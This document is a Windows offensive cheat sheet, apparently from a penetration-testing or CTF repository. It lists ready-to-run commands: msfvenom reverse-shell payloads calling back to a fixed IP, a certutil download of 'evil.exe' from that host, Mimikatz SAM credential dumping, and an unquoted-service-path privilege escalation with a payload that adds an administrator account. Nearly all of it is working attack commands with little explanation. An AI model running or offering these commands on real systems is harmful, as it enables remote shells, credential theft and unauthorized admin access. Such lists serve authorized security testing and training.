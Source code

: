 # Windows Cheat Sheet

- [Windows Cheat Sheet](#windows-cheat-sheet)
  - [Generate a revshell](#generate-a-revshell)
  - [Upload a file](#upload-a-file)
  - [Add color to winPEAS](#add-color-to-winpeas)
  - [MIMIKATZ](#mimikatz)
    - [Commands](#commands)
  - [Unquoted Service Path](#unquoted-service-path)

## Generate a revshell
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.66.218 LPORT=1234 -f exe -o exp.exe
```

## Upload a file
```bash
certutil.exe -urlcache -split -f http://10.11.66.218:9999/evil.exe C:\\Temp\\evil.exe
```

## Add color to winPEAS
```bash
REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

## MIMIKATZ
Upload `mimikatz`

### Commands
```
privilege::debug
lsadump::sam
```

## Unquoted Service Path
- Scan vuln services
```bash
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

- Check permissions
```bash
icacls "C:\Program Files\Development Files"
```

- Create a payload
```bash
msfvenom -p windows/exec CMD="net localgroup administrators sage /add" -f exe-service -o Devservice.exe
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.66.218 LPORT=1234 -f exe-service -o Devservice.exe
```

- Get service info
```bash
sc qc "Development Service"
```